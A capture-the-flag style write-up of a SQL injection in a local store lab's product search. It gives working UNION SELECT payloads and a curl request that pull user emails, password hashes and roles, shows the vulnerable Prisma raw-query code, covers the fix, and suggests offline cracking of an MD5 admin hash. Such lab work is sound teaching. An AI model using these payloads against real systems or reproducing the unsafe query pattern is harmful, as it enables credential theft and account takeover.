



## Introduction

This writeup walks through a SQL injection in the product search feature. The search input gets dropped straight into a raw SQL query with no sanitization, so you can manipulate the query to pull data from other tables and grab the flag.

## Table of contents

- [Lab setup](#lab-setup)
- [Feature overview and attack surface](#feature-overview-and-attack-surface)
- [Exploitation procedure](#exploitation-procedure)
- [Flag retrieval](#flag-retrieval)
- [Vulnerable code analysis](#vulnerable-code-analysis)
- [Remediation](#remediation)

---

## Lab setup

Spin up the lab locally:

```bash
npx create-oss-store oss-store
cd oss-store
npm run dev
```

This installs dependencies, sets up the database with seed data, and starts the dev server on port 3000.

Once it's running, open:

```
http://localhost:3000
```


## Feature overview and attack surface

The target here is the product search bar in the navigation header. It lets users search products by name or description, hitting this endpoint:

```
/api/products/search?q=<search_term>
```

On the backend, the `q` parameter gets interpolated directly into a SQL query. No escaping, no parameterization. Whatever you type becomes part of the SQL statement.



You can close the intended query context and tack on your own `UNION SELECT`.

## Exploitation procedure

### Initial behavior verification

Start by searching for something normal, like `fresh`. You should get product results back, confirming the endpoint works and actually uses the `q` parameter.

### Injection probing

Now try this payload:

```
' UNION SELECT 1,2,3,4,5--
```

If the page renders without errors, you're in. The single quote broke out of the `LIKE` clause, and the `UNION SELECT` merged in.



### UNION-based data extraction

Time to pull real data. Submit this:

```
DELIVERED' UNION SELECT id, email, password, role, addressId FROM users--
```

This merges the `users` table into the product results. The app doesn't check where the columns came from, so it happily returns user credentials alongside product listings.



Same thing via curl:

```bash
curl "http://localhost:3000/api/products/search?q=DELIVERED%27%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20role%2C%20addressId%20FROM%20users--"
```

## Vulnerable code analysis

Here's the problem. The query is built with string concatenation:

```ts
const sqlQuery = `
  SELECT 
    id,
    name,
    description,
    price,
    "imageUrl"
  FROM products
  WHERE name LIKE '%${query}%' OR description LIKE '%${query}%'
  ORDER BY name ASC
  LIMIT 50
`;

const results = await prisma.$queryRawUnsafe(sqlQuery);
```

The `query` parameter is dropped directly into the SQL string, and `$queryRawUnsafe` does exactly what the name suggests — it skips Prisma’s parameterization entirely. No escaping either. Single quotes, comment delimiters, anything goes.

So when you send:

```
DELIVERED' UNION SELECT ...
```

the quote closes the `LIKE` clause, and everything after it runs as SQL. The database user can read other tables, so the `users` table comes back for free.

This is [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html).

## Remediation

Don't build SQL queries with string interpolation. Use Prisma's query builder instead:

```ts
const results = await prisma.product.findMany({
  where: {
    OR: [
      { name: { contains: query, mode: "insensitive" } },
      { description: { contains: query, mode: "insensitive" } },
    ],
  },
});
```

User input stays data, never becomes executable SQL.

If you need raw SQL with Prisma, use `$queryRaw` (parameterized), not `$queryRawUnsafe`. With MySQL and no ORM, use prepared statements. You should also restrict the database user's permissions so that even if someone does find an injection, the damage is limited. Logging unusual query patterns helps too — you want to know when someone is poking at your search bar with `UNION SELECT`.

## Go further

The leaked data includes an admin email with an MD5 password hash. MD5 is trivially crackable at this point, so you can try recovering the password offline and logging in as admin. From there, you'd have access to restricted endpoints where other flags might be hiding.
